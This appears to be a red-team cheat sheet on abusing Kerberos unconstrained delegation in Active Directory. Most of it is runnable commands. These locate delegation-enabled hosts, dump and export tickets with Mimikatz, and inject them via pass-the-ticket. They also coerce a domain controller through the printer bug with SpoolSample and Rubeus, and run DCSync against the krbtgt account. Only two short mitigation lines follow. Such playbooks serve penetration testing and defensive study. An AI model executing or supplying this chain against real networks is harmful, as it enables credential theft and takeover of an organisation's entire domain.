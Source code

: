 # Unconstrained Delegation

## General

- When set for service account, allows delegation to any service to any resource on the domain as a user
- When enabled, DC places user's TGT inside TGS when user requests access to service with unconstrained delegation enabled
- Server extracts TGT from TGS and stores it in LSASS
- Server can reuse the user's TGT to access resoruces
- Escalate privileges when extracting TGT from Domain Admins or other HVTs
- Note: need local admin access on the machine to extract tickets

## Exploitation

```powershell
# Get computers that have unconstrained delegation enabled
# Using PowerView
Get-NetComputer -Unconstrained

# Using AD Module
Get-ADComputer -Filter { TrustedForDelegation -eq $true }
Get-ADUser -Filter { TrustedForDelegation -eq $true }

# ldapdomaindump
ldapdomaindump -u "DOMAIN\\Account" -p "Password123*" 10.10.10.10   
grep TRUSTED_FOR_DELEGATION domain_computers.grep

# CrackMapExec
crackmapexec ldap 10.10.10.10 -u username -p password --trusted-for-delegation

# Monitor DA logins on computer
Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose

# Check if we have local admin access on that machine using PowerView
Find-LocalAdminAccess -ComputerName dcorp-appsrv

# Get session on machine as local admin and check for tickets
Invoke-Mimikatz -Command '"sekurlsa::tickets"'

# Export tickets
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Inject ticket into session
Invoke-Mimikatz -Command '"kerberos:ptt ticket.kirbi"'
```

## Printer Bug

- Trick HVT to connect to machine with Unconstrained Delegation enabled
- Force Domain Admin to connect to specific machine
- https://github.com/leechristensen/SpoolSample

```powershell
# Start capturing for TGTs using Rubeus
.\Rubeus.exe monitor /interval:5 /nowrap

# Run MS-RPRN.exe
.\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appserv.dollarcorp.moneycorp.local

# From https://github.com/leechristensen/SpoolSample
.\SpoolSample.exe VICTIM-DC-NAME UNCONSTRAINED-SERVER-DC-NAME
.\SpoolSample.exe DC01.HACKER.LAB HELPDESK.HACKER.LAB
# DC01.HACKER.LAB is the domain controller we want to compromise
# HELPDESK.HACKER.LAB is the machine with delegation enabled that we control.

# From https://github.com/dirkjanm/krbrelayx
printerbug.py 'domain/username:password'@<VICTIM-DC-NAME> <UNCONSTRAINED-SERVER-DC-NAME>

# From https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc#gistcomment-2773689
python dementor.py -d domain -u username -p password <UNCONSTRAINED-SERVER-DC-NAME> <VICTIM-DC-NAME>

# Copy base64 encoded TGT, remove extra spaces and inject it on attacker machine
.\Rubeus.exe ptt /ticket:ticket.kirbi

# Run DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

## Mitigation

- Limit DA/Admin logins to specific servers
- Set "Account is sensitive and cannot be delegated" for privileged accounts

## Further Reading

- [HackTricks: Unconstrained Delegation](https://book.hacktricks.xyz/windows/active-directory-methodology/unconstrained-delegation)
- [PayloadsAllTheThings: Kerberos Unconstrained Delegation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#kerberos-unconstrained-delegation)
- [iRedTeam: Kerberos Unconstrained Delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)
- [iRedTeam: Domain Compromise via DC Print Server and Kerberos Delegation](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)
- [Security Focus: Analysing Account is Sensitive and cannot be Delegated for Privileged Accounts](https://docs.microsoft.com/en-us/archive/blogs/poshchap/security-focus-analysing-account-is-sensitive-and-cannot-be-delegated-for-privileged-accounts)
- [SpecterOps: Hunting in Active Directory: Unconstrained Delegation & Forest Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
